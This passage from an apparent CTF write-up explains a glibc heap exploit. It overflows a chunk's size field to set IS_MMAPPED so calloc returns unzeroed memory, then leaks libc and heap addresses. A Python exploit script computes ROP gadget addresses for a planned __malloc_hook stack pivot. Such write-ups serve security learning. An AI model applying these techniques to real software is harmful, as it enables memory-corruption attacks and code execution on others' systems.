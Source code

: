 Knowing this, in order to leak both libc and heap addresses, we need to do the following:

1. Free a large chunk into the unsorted bin. Call it chunk B.
2. Allocate another chunk in order to move chunk B from the unsorted bin into a large bin. This will populate the chunk's `fd_nextsize` and `bk_nextsize` fields with heap addresses. It's `fd` and `bk` fields will contain libc addresses.
3. Use the first upgrade to overflow into chunk B's size, and flip the `IS_MMAPPED` bit to set it to 1.
4. Buy a house that is the exact size of chunk B, and `calloc` will give you back chunk B without zeroing it out.

Since the `show_house` function uses `write` to write out `house[index].size` bytes of the house's description, it will not stop at NULL bytes, which lets us leak both a libc address (from either the `fd` or `bk` fields) and a heap address (from either the `fd_nextsize` or `bk_nextsize` fields).

The steps are shown below in my exploit script:
```python
buy(0, 0x80, 'A'*0x80) # Used to overwrite into chunk B
buy(1, 0x500, 'B'*0x500) # Chunk B
buy(2, 0x80, 'C'*0x80) # Prevent consolidation of chunk B with top chunk

# Sell chunk B into unsorted bin
sell(1)
buy(1, 0x600, 'A'*0x600) # Move chunk B to large bin

# Overflow to turn on the IS_MMAPPED bit of chunk B
# This prevents calloc from clearing the chunk when we reallocate it
upgrade(0, '\x00'*0x88 + p64(0x513))

# Get chunk B back without it being zeroed out
buy(7, 0x500, 'A'*8)

# Leak libc and heap addresses
show(7)
data = p.recv(0x18)

libc.address = u64(data[8:16]) - 0x1e50d0 # Leak from bk
heap = u64(data[16:24]) - 0x2e0 # Leak from fd_nextsize

pop_rdi = libc.address + 0x26542
pop_rsi = libc.address + 0x26f9e
pop_rdx = libc.address + 0x12bda6
pop_rax = libc.address + 0x47cf8
syscall = libc.address + 0xcf6c5
malloc_hook = libc.symbols['__malloc_hook']
leave_ret = libc.address + 0x58373
```

With the leaks, we can move on to the final stage of the exploit.

#### ROP on the heap!?

This is where the exploit is truly amazing in my opinion. **Balsn** makes use of a number of techniques to set up the heap before finally overwriting `__malloc_hook` with a `leave; ret` gadget, which pivots the stack onto the heap and returns into a ROP chain that was put onto the heap. This stack pivot ***only*** happens when `__malloc_hook` is called through `calloc`. It is really freaking cool.
